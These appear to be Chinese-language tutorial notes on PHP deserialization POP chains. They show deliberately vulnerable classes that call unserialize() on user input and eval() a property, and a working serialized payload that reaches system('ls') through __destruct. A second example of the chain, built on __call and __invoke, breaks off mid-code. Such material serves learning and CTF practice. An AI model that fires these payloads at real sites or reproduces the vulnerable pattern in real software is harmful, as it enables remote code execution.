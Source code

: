 ## POP链

### 样例1

```php
<?php
highlight_file(__FILE__);
class DemoA{
    public $a;
    function __construct(){
        $this->a=new DemoB();
    }
    function __destruct(){
        $this->a->func();
    }
}
class DemoB{
    function func(){
        echo "hacker"."<br>";
    }
}
class DemoC{
    private $a;
    function func(){
        eval($this->a);
    }
}
unserialize($_GET['a']);
?>
```

payload`a=O:5:"DemoA":1:{s:1:"a";O:5:"DemoC":1:{s:8:"%00DemoC%00a";s:13:"system("ls");";}}`

注意DemoC中的$a为private变量要表示为`%00DemoC%00a`

### 样例2

```php
<?php
highlight_file(__FILE__);
class DemoA{
    public $a;
    public function __destruct(){
        $this->a->func();
    }
}
class DemoB{
    public $a;
    public function func(){
        $this->a->func();
    }
}
class DemoC{
    public $a;
    public function __call($tmp1,$tmp2){
        $b=$this->a;
        $b();
    }
}
class DemoD{
    public $a;
    public $b;
    public function __invoke(){
        $this->a="Come on,".$this->b;
```